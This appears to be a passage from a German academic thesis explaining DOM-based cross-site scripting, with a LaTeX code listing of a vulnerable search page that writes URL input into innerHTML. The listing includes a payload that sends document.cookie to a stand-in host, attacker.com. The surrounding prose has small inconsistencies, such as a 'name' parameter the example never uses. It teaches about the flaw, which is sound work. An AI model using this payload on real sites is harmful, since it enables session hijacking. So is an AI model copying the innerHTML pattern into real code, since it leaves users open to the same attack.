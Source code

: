 Ruft man die Seite \verb+http://website.com/search?keyword=XSS+ auf, resultiert dies in einer angepassten Begrüßung für Max. Ersetzt man jedoch den name Parameter mit einem Skript-tag und ruft \verb+http://website.com/search?keyword=<script>+ \verb+Evilfunction()</script>+ auf, sendet der Web-Browswer eine HTTP Anfrage an \verb+http://website.com+ und bekommt eine statische HTML Seite zurück. Der Web-Browser baut das DOM auf und füllt die Eigenschaft \verb+document.URL+ mit der URL, welche das Skript enthält.

\begin{lstlisting}[caption={Beispiel für DOM-based XSS Attacke},label=dom_xss_example]
Hey user, check this out: "http://website.com/search?keyword=<script>window.location='http://attacker.com/?cookie='+document.cookie</script>"

GET "http://website.com/search?keyword=<script>window.location='http://attacker.com/?cookie='+document.cookie</script>"

<html>
	<h1> You Searched for:</h1>
	<div id ="searchquery"></div>
	<script>
		var keyword = location.search.substring(3);
		document.querySelector('searchquery').innerHTML = keyword;
	<script>
</html>

<html>
	<h1> You Searched for:</h1>
		<div id ="searchquery">
			<script>window.location='http://attacker.com/?cookie='+document.cookie</script>
		</div>
	<script>
		var keyword = location.search.substring(3);
		document.querySelector('searchquery').innerHTML = keyword;
	<script>
</html>

GET "http://attacker.com/?cookie=user-cookie"
\end{lstlisting}

Der Web-Browser parsed die HTML Seite, und führt bei \verb+document.URL+ angekommen das Skript aus und lädt dabei den schadhaften Code von der \verb+document.URL+. Ist die Seite vollständig geladen, befindet sich der JavaScript Code vom Angreifer im DOM und wird durch den Interpreter im Web-Browser ausgeführt.

DOM-based XSS Attacken sind der Typ von XSS Angriffen, die im Document Object Model (DOM) einer HTMl Seite stattfinden, so dass der HTTP-Antwort-Code auf eine andere Art und Weise läuft. DOM XSS Angriffe können von einer Vielzahl von DOM Objekten durchgeführt werden \autocite[763]{swaswatigoswami2017}.

